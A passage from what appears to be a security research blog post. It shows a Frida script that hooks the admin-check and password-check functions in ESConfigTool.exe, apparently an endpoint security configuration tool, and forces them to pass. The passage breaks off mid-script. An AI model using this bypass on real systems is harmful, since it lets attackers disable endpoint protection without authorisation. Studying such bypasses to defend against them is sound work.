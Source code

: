 ![Task Manager](img/taskmanager.png)

We can now inject JavaScript code into the ESConfigTool process.

## The Frida script
I won't go over the process of how to create this script, this blog contains enough information as it is, but here is the completed script:

```javascript
const configBase = Module.findBaseAddress('ESConfigTool.exe');
//const adminCheck = configBase.add(0x5240); //32
const adminCheck = configBase.add(0x5f30); //64
const BLInvokeMethod = Module.findExportByName('blframework.dll','BLInvokeMethod')

console.log('[-] Base address is:',configBase);
console.log('[-] Admin check is:',adminCheck);
console.log('[-] BLInvokeMethod:',BLInvokeMethod);

Interceptor.attach(adminCheck, {
  onEnter: function (args) {
    console.log('[+] Hooked admin check function');
  },
  onLeave: function (retval) {
    console.log('[+] Returning true for admin check');
    retval.replace(1);
  }
});

Interceptor.attach(BLInvokeMethod, {
  onEnter: function (args) {
    console.log('[+] Hooked BLInvokeMethod function');
  },
  onLeave: function (retval) {
    console.log('[+] Patching password check function');
```